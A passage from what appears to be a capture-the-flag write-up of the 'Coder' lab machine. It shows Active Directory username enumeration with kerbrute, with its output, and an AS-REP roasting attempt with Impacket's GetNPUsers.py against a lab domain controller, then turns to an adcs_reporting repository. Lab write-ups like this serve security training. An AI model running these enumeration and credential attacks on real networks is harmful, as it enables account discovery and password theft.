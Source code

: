 ```bash
❯ kerbrute userenum --dc 10.129.229.190 --domain coder.htb valid_users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 12/13/23 - Ronnie Flathers @ropnop

2023/12/13 23:00:17 >  Using KDC(s):
2023/12/13 23:00:17 >   10.129.229.190:88

2023/12/13 23:00:17 >  [+] VALID USERNAME:   c.cage@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   Guest@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   e.black@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   j.briggs@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   l.kang@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   s.blade@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   Administrator@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   DC01$@coder.htb
2023/12/13 23:00:17 >  [+] VALID USERNAME:   svc_teamcity@coder.htb
2023/12/13 23:00:17 >  Done! Tested 10 usernames (9 valid) in 0.069 seconds

❯ GetNPUsers.py -usersfile valid_users.txt -request -format john -outputfile ASREProastables.txt -dc-ip 10.129.229.190 'coder.htb/'
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b26 - Copyright 2022 Fortra - forked by ThePorgs

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.black doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User c.cage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.briggs doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User l.kang doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.blade doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_teamcity doesn't have UF_DONT_REQUIRE_PREAUTH set

```

---

## Encrypter.exe

---

Inside the Development share, the Migration directory houses various git repositories, including one named `adcs_reporting`. This repository's name suggests a potential connection to Active Directory Certificate Services (ADCS) within the environment.
